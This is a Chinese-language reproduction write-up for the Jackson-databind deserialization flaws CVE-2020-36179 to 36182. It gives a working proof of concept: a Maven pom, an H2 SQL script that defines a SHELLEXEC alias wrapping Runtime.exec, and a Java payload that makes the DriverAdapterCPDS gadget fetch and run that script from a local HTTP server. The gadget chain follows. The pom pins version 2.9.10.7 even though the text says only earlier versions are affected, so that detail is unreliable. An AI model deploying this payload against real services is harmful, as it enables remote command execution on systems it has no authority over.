

Jackson-databind SSRF&RCE CVE-2020-36179~36182¶
漏洞描述¶
漏洞类型：JDNI 注入导致 RCE
利用条件：
- 开启 enableDefaultTyping()
- 使用了 org.apache.servicemix.bundles 第三方依赖库
以下类绕过了之前 jackson-databind 维护的黑名单类，并且 JDK 版本较低的话，可造成 SSRF&RCE：
- CVE-2020-36179：org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36180: org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36181: org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36182: org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS
参考链接：
漏洞影响¶
Jackson-databind < 2.9.10.7
漏洞复现¶
pom.xml：
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>com.jacksonTest</groupId>
<artifactId>jacksonTest</artifactId>
<version>1.0-SNAPSHOT</version>
<dependencies>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-databind</artifactId>
<version>2.9.10.7</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
<dependency>
<groupId>org.apache.commons</groupId>
<artifactId>commons-dbcp2</artifactId>
<version>2.8.0</version>
</dependency>
<!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.199</version>
</dependency>
<dependency>
<groupId>org.slf4j</groupId>
<artifactId>slf4j-nop</artifactId>
<version>1.7.2</version>
</dependency>
<!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
<dependency>
<groupId>javax.transaction</groupId>
<artifactId>jta</artifactId>
<version>1.1</version>
</dependency>
</dependencies>
</project>
exec.sql：
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('calc.exe')
poc.java：
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;
public class POC {
public static void main(String[] args) throws Exception {
String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
Object obj = mapper.readValue(payload, Object.class);
mapper.writeValueAsString(obj);
}
}

Gadget：
DriverAdapterCPDS
->seturl
->getPooledConnection
->DirverManager.getConnection(this.url,username,pass)